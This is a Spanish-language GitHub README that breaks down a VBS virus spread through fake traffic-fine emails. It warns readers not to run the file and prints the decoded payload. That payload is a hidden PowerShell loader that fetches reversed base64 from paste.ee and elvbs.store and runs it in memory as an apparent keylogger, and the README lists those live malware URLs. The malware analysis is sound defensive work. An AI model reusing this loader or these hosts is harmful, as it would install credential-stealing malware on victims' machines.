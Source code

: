# virus-breakdown

- ⚠️ NO ejecutar "Orden del Comparendo Electronico.vbs", este archivo es un virus que circula en diferentes correos electrónicos falsos. Para más información consulte [aquí] 
- ✔️ "decodificado.py" es seguro, elimina la ofuscación del virus que consiste en simples reemplazos e inversiones de strings. 

## :supervillain: El virus descifrado:
Con el archivo decodificado.py se puede observar que el virus contiene el siguiente código en base64:

Código base 64
```
JGRsbCA9ICcwLzhKTWgxL3IvZWUuZXRzYXAvLzpzcHR0aCc7JFJ1bXBlRCA9IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCAkZGxsWy0xLi4tJGRsbC5MZW5ndGhdIC1qb2luICcnICk7W0J5dGVbXV0gJFJ1bXBlID0gW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZyggJFJ1bXBlRFstMS4uLSRSdW1wZUQuTGVuZ3RoXSAtam9pbiAnJyApO1tSZWZsZWN0aW9uLkFzc2VtYmx5XTo6TG9hZCgkUnVtcGUpLkdldFR5cGUoJ2VudC5DbGFzczEnKS5HZXRNZXRob2QoJ1J1bicpLkludm9rZSgkbnVsbCwgW29iamVjdFtdXSAoJ3R4dC4yNjYwMjQwODIxMS9zYnYvZXJvdHMuc2J2bGUvLzpwdHRoJykp;$OWjuxD =
```


```
[SystemBolSULeYnpTextBolSULeYnpEncoding]::ASCIIBolSULeYnpGetString( [SystemBolSULeYnpConvert]::FromBase64String($Codigo) );powershellBolSULeYnpexe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command $OWjuxD
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
```



## :mage_man: El base 64 decodificado:
```
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
$dll = '0/8JMh1/r/ee.etsap//:sptth';$RumpeD = (New-Object Net.WebClient).DownloadString( $dll[-1..-$dll.Length] -join '' );[Byte[]] $Rumpe = [System.Convert]::FromBase64String( $RumpeD[-1..-$RumpeD.Length] -join '' );[Reflection.Assembly]::Load($Rumpe).GetType('ent.Class1').GetMethod('Run').Invoke($null, [object[]] ('txt.26602408211/sbv/erots.sbvle//:ptth'))9h
```

```
$dll = '0/8JMh1/r/ee.etsap//:sptth';
$RumpeD = (New-Object Net.WebClient).DownloadString( $dll[-1..-$dll.Length] -join '' );
[Byte[]] $Rumpe = [System.Convert]::FromBase64String($RumpeD[-1..-$RumpeD.Length] -join '' );
[Reflection.Assembly]::Load($Rumpe).GetType('ent.Class1').GetMethod('Run').Invoke($null, [object[]] ('txt.26602408211/sbv/erots.sbvle//:ptth'))9h
```

Pueden evidenciarse dos urls desde donde se descargan otras cadenas en base64 que contienen un keylogger:
- https://paste.ee/r/1hMJ8/0
- http://elvbs.store/vbs/11280420662.txt


### Existen otros 170 archivos, muy posiblemente otras variaciones del virus en http://elvbs.store/vbs


[aquí]: https://www.virus.com.co/318/usted-presenta-con-comparendo-por-foto-multa
